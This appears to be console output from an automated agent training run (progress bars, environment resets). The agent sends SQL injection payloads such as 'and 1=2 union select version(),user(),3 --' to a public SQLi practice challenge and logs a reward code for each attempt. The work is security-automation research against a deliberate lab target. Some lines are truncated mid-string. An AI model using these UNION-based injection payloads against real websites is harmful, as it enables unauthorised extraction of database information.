https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1835/1000000 [10:51:34<6765:42:27, 24.40s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1836/1000000 [10:51:35<4812:03:58, 17.36s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1837/1000000 [10:51:36<3454:15:46, 12.46s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1838/1000000 [10:51:37<2503:59:52,  9.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1839/1000000 [10:51:38<1831:11:25,  6.60s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3 --


  0%|          | 1840/1000000 [10:51:39<1382:00:09,  4.98s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1841/1000000 [10:51:41<1052:27:50,  3.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1842/1000000 [10:51:42<823:40:02,  2.97s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/

  0%|          | 1843/1000000 [10:53:17<8532:21:51, 30.77s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1844/1000000 [10:53:18<6052:20:41, 21.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax err

  0%|          | 1845/1000000 [10:58:30<30152:39:07, 108.75s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Serv

  0%|          | 1846/1000000 [11:00:46<32457:36:46, 117.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1847/1000000 [11:00:47<22803:58:23, 82.25s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server r

  0%|          | 1848/1000000 [11:02:54<26502:53:24, 95.59s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union

  0%|          | 1849/1000000 [11:03:14<20200:20:13, 72.86s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1850/1000000 [11:03:15<14220:43:03, 51.29s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1851/1000000 [11:03:16<10032:24:40, 36.18s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1852/1000000 [11:03:17<7107:13:43, 25.63s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1853/1000000 [11:03:18<5056:23:20, 18.24s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQ

  0%|          | 1854/1000000 [11:06:04<17352:53:09, 62.59s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server

  0%|          | 1855/1000000 [11:06:48<15801:32:30, 56.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1856/1000000 [11:06:49<11180:29:13, 40.32s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 

  0%|          | 1857/1000000 [11:07:48<12750:36:03, 45.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1858/1000000 [11:07:50<9091:33:15, 32.79s/it] 

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--


  0%|          | 1859/1000000 [11:08:32<9835:01:51, 35.47s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1860/1000000 [11:08:33<6960:11:31, 25.10s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 ' and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
S

  0%|          | 1861/1000000 [11:08:47<6069:23:40, 21.89s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3 --
Nothing reponse
Server response is -1
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server 

  0%|          | 1862/1000000 [11:09:28<7602:34:46, 27.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1863/1000000 [11:09:29<5400:34:09, 19.48s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1864/1000000 [11:09:30<3941:14:48, 14.21s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1865/1000000 [11:09:34<3020:44:30, 10.89s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1866/1000000 [11:09:35<2199:55:00,  7.93s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1867/1000000 [11:09:36<1622:33:39,  5.85s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server r

  0%|          | 1868/1000000 [11:09:56<2860:50:53, 10.32s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1869/1000000 [11:09:57<2081:46:54,  7.51s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1870/1000000 [11:09:58<1537:23:26,  5.54s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1871/1000000 [11:09:59<1154:05:45,  4.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1872/1000000 [11:10:00<891:22:07,  3.21s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1873/1000000 [11:10:01<706:23:19,  2.55s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1874/1000000 [11:10:02<580:32:25,  2.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1875/1000000 [11:10:03<481:36:12,  1.74s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server res

  0%|          | 1876/1000000 [11:10:19<1631:57:34,  5.89s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1877/1000000 [11:10:21<1296:48:53,  4.68s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,2--
https://zixem.alt

  0%|          | 1878/1000000 [11:12:51<13427:09:54, 48.43s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union

  0%|          | 1879/1000000 [11:16:41<28553:23:09, 102.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1880/1000000 [11:16:42<20071:21:59, 72.39s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1881/1000000 [11:16:44<14212:01:32, 51.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server respo

  0%|          | 1882/1000000 [11:18:21<17963:38:48, 64.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1883/1000000 [11:18:22<12653:10:15, 45.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1884/1000000 [11:18:23<8935:37:06, 32.23s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1885/1000000 [11:18:25<6415:13:24, 23.14s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1886/1000000 [11:18:26<4571:46:36, 16.49s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1887/1000000 [11:18:26<3277:34:25, 11.82s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1888/1000000 [11:18:27<2374:46:43,  8.57s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3 --


  0%|          | 1889/1000000 [11:18:29<1815:27:46,  6.55s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version() --
Query with

  0%|          | 1890/1000000 [11:19:06<4322:47:05, 15.59s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union s

  0%|          | 1891/1000000 [11:20:09<8263:21:08, 29.80s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1892/1000000 [11:20:10<5866:58:52, 21.16s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1893/1000000 [11:20:11<4184:33:30, 15.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.p

  0%|          | 1894/1000000 [11:20:56<6690:56:26, 24.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1895/1000000 [11:20:57<4718:45:35, 17.02s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user() --
